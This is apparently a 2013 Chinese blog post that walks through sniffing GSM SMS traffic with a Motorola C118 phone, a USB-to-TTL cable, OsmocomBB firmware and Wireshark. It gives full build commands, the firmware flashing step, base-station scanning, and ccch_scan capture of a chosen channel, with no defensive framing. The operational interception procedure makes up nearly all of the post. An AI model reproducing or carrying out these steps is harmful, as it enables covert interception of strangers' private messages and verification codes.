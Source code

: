 title: 短信嗅探
tags:
  - security
  - diy
date: 2013-05-26 21:07:27
---

> 短信嗅探技术在几年前就非常成熟，如今实现的成本也非常低廉！

<!-- more -->

#### 准备工作

* 电脑
* 摩托罗拉C118手机
* 耳机线
* USB2TTL线

#### 运行环境

建议在BackTrack或Kali系统下操作

```Bash
sudo apt-get install libtool shtool autoconf git-core pkg-config make gcc build-essential libgmp3-dev libmpfr-dev libx11-6 libx11-dev texinfo flex bison libncurses5 libncurses5-dbg libncurses5-dev libncursesw5 libncursesw5-dbg libncursesw5-dev zlibc zlib1g-dev libmpfr4 libmpc-dev
```

[编译环境](http://bb.osmocom.org/trac/wiki/GnuArmToolchain)

```Bash
git clone git://git.osmocom.org/osmocom-bb.git  
git clone git://git.osmocom.org/libosmocore.git

# 编译libosmocore
cd ~/libosmocore  
autoreconf -i  
./configure  
make  
sudo make install

# 编译libosmocore
cd ~/osmocom-bb  
git checkout --track origin/luca/gsmmap
cd src  
make
```

#### 短信截包

将USB2TTL接到电脑，把耳机线一头接到手机，另外一头接到USB2TTL上

```Bash
# 查看手机连接状态
lsmod | grep usb

cd ~/osmocom-bb/src/host/osmocon/  
./osmocon -m c123xor -p /dev/ttyUSB0 ../../target/firmware/board/compal_e88/layer1.compalram.bin
```

再开一个终端查看可用基站
```Bash
cd ~/osmocom-bb/src/host/layer23/src/misc/
./cell_log
```

嗅探指定基站
```Bash
cd ~/osmocom-bb/src/host/layer23/src/misc/
./ccch_scan -i 127.0.0.1 -a 117
```

再开一个终端窗口查看嗅探结果
```
sudo wireshark -k -i lo -f 'port 4729'
```
过滤只显示gsm_sms即可看到嗅探结果

![短信嗅探配件](http://wufeifei.com/img/sms_sniffer_parts.jpg)

![短信嗅探手机](http://wufeifei.com/img/sms_sniffer_phone.jpg)
